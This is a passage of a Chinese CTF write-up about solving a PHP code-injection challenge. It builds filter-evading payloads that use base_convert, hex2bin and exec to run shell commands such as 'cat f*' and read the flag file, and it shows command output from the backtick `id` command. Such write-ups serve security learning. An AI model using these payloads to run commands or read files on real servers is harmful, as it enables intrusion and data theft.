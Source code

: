 ```php
php > echo (1).`id`;
1uid=501(zedd) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
php > echo 1,`id`;
1uid=501(zedd) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```

尽量取最短的，这里肯定我们就用`,`这个形式。

所以大致思路就差不多出来了利用`base_convert`构造`hex2bin`，然后用最短的可以执行命令的`exec`函数去执行`cat *`的命令

```
$pi=base_convert(37907361743,10,36),$pi(65786563)($pi(dechex(426836762666)))
```

然而没成功...不知道哪里错了，感觉没道理...

```
($pi=base_convert),$pi(696468,10,36)($pi(37907361743,10,36)(7267726570206167));

($pi=base_convert),$pi(696468,10,36)($pi(37907361743,10,36)(7267726570202466));
```

接着队友说可以用`rgrep ag`去弄，而且本地打通了...但是远程以上没打通…我又修改了尝试去`rgrep fl`，也没打通，当时是这样的

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2aowgd5kej228016u4qq.jpg)

写 wp 的时候，突然又发现可以打通了...

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2aoxcl198j21pu096q4j.jpg)

也是神奇...最后当时还是按照自己的思路去走了，感觉是不是哪里出问题了，确定有`flag.php`，最后尝试修改`cat f*`，

```
php > echo base_convert('63617420662a',16,10);
109270211257898
php > echo hex2bin(dechex(109270211257898));
cat f*
```

```
$pi=base_convert(37907361743,10,36),$pi(65786563)($pi(dechex(109270211257898)))
```

拿到 flag（复现环境下）

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2ap2m9nm4j22800xo0xu.jpg)



#	Pwn
